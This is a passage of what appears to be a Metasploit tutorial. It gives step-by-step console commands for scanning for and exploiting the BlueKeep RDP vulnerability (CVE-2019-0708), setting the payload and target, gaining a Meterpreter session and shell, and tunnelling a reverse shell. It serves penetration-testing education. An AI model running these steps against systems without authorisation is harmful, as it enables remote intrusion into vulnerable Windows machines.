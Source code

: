 ```bash
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run
... SYSTEM IS VULNERABLE TO ... bluekeep ....
```

5. Search (`search` command) for related exploit and select using the `use` command

```bash
msf6 > search type:exploit bluekeep
 0  exploit/windows/rdp/cve_2019_0708_bluekeep_rce    2019-05-14 ...
 
msf6 > use 0
```

6. Read information about the exploit using the `info`or`show options` command: identify required parameters and set the values

```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > info
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rhosts ...
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set ...
```

7. Search for payload, read information about it, and set the payload

Alternatively, use the default payload selected

```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > search payloads
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set payload 0 # eg. payload index 0
```

8. View the targets and select the relevant one

```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target ...
```

9. Run exploit

```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

10. Gain Meterpreter

```bash
meterpreter > pwd
meterpreter > ls 
meterpreter > shell
...
```

### Other useful commands

1. `set ReverseListenerBindAddress`&#x20;

* With this option, we can specify the address to which we want the reverse shell connection to be tunneled through
